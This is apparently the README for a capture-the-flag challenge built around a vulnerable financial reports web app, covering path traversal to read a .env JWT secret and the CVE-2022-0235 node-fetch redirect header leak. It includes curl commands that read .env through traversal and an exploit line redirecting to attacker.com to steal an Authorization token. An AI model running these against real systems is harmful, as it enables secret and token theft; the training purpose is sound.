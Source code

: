 # FinCorp Financial Reports CTF Challenge

Note: This CTF intentionally exposes a vulnerable download route at the web app's `/download` endpoint to demonstrate path traversal and env-secret exposure.

This is a Capture The Flag (CTF) challenge involving a financial company's website with two distinct vulnerabilities.

## Challenge Overview

The challenge consists of two stages:

### Stage 1: Path Traversal Vulnerability
- **Target**: Extract JWT secret from `.env` file
- **Method**: File path traversal in the download endpoint
- **Goal**: Gain admin access by forging JWT tokens

### Stage 2: Node-fetch Redirect Header Leak (CVE-2022-0235)
- **Target**: Steal service token via redirect vulnerability
- **Method**: Exploit vulnerable node-fetch version that forwards Authorization headers on redirects
- **Goal**: Access the internal API flag endpoint

## Architecture

- **Web Container** (Port 8080): Public-facing website with admin dashboard
- **API Container** (Port 3001): Internal API service with flag endpoint
- **Network**: Both containers communicate via Docker network

## Setup Instructions

1. **Clone and navigate to the challenge directory:**
   ```bash
   cd /Users/alexsch/Reports_CTF
   ```

2. **Build and start the containers:**
   ```bash
   docker-compose up --build
   ```

3. **Access the application:**
   - Website: http://localhost:8080
   - Admin Dashboard: http://localhost:8080/admin (requires admin JWT)
   - API Health: http://localhost:3001/api/health

## Challenge Files

- `public/` - Static HTML files for the website
- `web/` - Web application (Node.js/Express)
- `api/` - Internal API service
- `env/` - Environment files with secrets
- `docker-compose.yml` - Container orchestration

## Vulnerabilities

### 1. Path Traversal (`/download` endpoint)
- Status: Intentionally vulnerable. The `/download` route in `web/app.js` performs unsafe path joining, allowing traversal to `.env`.

### 2. Node-fetch Redirect Header Leak
- **File**: `web/app.js` line ~95
- **Issue**: node-fetch 2.6.6 forwards Authorization headers on redirects
- **Exploit**: Use admin API client to call `/api/redirect?to=http://attacker.com`

## Flags

- **FLAG1**: Confirmation of admin access (in admin dashboard)
- **FLAG2**: Retrieved from `/api/flag` endpoint with stolen service token

## Testing the Challenge

1. **Test path traversal:**
   ```bash
   curl "http://localhost:8080/download?path=.env"
   ```

2. **Test admin login:**
   ```bash
   curl -X POST http://localhost:8080/admin/login \
     -H "Content-Type: application/json" \
     -d '{"username":"admin","password":"admin123"}'
   ```

3. **Test API redirect:**
   ```bash
   curl "http://localhost:3001/api/redirect?to=https://httpbin.org/get"
   ```

4. **Test file download via vulnerable route:**
   ```bash
   curl -I "http://localhost:8080/download?path=reports/q1-2025.pdf"
   ```

## Security Notes

This challenge is designed for educational purposes and demonstrates real-world vulnerabilities:
- CVE-2022-0235: node-fetch redirect header leak
- Path traversal vulnerabilities in file download endpoints
- JWT secret exposure in environment files

## Cleanup

To stop and remove containers:
```bash
docker-compose down
docker-compose down --volumes  # Remove volumes if needed
```
